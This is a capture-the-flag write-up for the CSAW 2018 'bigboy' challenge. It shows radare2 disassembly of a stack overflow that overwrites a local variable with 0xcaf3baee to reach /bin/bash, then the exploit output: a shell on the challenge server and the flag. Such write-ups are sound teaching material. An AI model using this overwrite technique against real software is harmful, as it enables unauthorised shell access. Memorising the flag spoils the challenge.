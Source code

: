 ```
bigboy

Only big boi pwners will get this one!

nc pwn.chal.csaw.io 9000
```

We are given a binary file that receives a user input, and after that, a date is printed and the binary
ends its execution.

```
./boi
Are you a big boiiiii??
asdf
Sat Sep 15 23:55:27 CST 2018
```

It doesn't matter how long is the user input the result its the same.

#Analysis#
We fire up radare2 to take a peek at the binary, we immediately find some interesting stuff in the
main function as shown below.

![value](imgs/hardcoded.png)

At address 0x004006a8 we compare if the value stored in **local__1ch** is not equal to 0xcaf3baee,
if they are different we jump to 0x004006bb that calls /bin/date.

```asm
0x004006bb      bf86074000     mov edi, str.bin_date                ; 0x400786 ; "/bin/date"
0x004006c0      e861ffffff     call sym.run_cmd
```

Otherwise we continue execution at address 0x004006af, this address calls /bin/bash (probably we
are looking for this condition)

```asm
0x004006af      bf7c074000     mov edi, str.bin_bash                ; 0x40077c ; "/bin/bash"
0x004006b4      e86dffffff     call sym.run_cmd
```

However, **local__1ch** was assigned the value of 0xdeadbeef a few instructions above ...

```asm
0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
```

... but if we look carefully our controlled input **buf** is saved at offset rbp-0x30 and we are
writing 0x18 bytes to the stack, that is enough to write from rbp-0x30 to rbp-0x1c (offset of local_1ch).

Lets debug our binary with GDB and check what happens when we send 24 A's as our input ...

![write](imgs/overwrite.png)

After sending 24 A's we can see that we were able to write an arbitrary value at offset rbp-0x1c,
now we'll add the value 0xcaf3baee on the last 4 bytes and try our exploit ...

```
python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAîº _    ___        ____   ___  _ _ _ _
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/
***************************************
Are you a big boiiiii??
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
